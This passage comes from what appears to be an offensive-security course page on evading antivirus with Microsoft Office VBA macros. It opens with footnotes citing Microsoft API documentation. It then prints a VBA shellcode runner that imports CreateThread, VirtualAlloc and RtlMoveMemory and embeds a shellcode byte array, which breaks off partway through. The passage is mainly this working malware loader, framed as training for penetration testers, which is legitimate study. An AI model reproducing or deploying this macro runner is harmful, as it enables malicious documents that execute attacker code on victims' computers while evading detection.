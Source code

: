 2

(Microsoft, 2018), [https://docs.microsoft.com/en-gb/windows/win32/procthread/numa-support](https://docs.microsoft.com/en-gb/windows/win32/procthread/numa-support) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_277-2)

3

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_277-3)

4

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_277-4)

5

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocess) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_277-5)

6

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/api/fibersapi/nf-fibersapi-flsalloc](https://docs.microsoft.com/en-us/windows/win32/api/fibersapi/nf-fibersapi-flsalloc) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/introduction-to-antivirus-evasion-14689/introduction-to-antivirus-evasion-14988#fnref-local_id_277-6)

### 9.7. Office Please Bypass Antivirus

We have performed an extensive and thorough analysis of how to bypass antivirus detections both in theory and in practice as it relates to our C# shellcode runner. Next, we'll turn our attention to Microsoft Office and attempt to evade antivirus when using VBA macros.

#### 9.7.1. Bypassing Antivirus in VBA

To begin, let's scan our existing VBA shellcode runner with AntiScan.Me.

The complete VBA macro is repeated in Listing 35 for ease of reference:

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function mymacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
```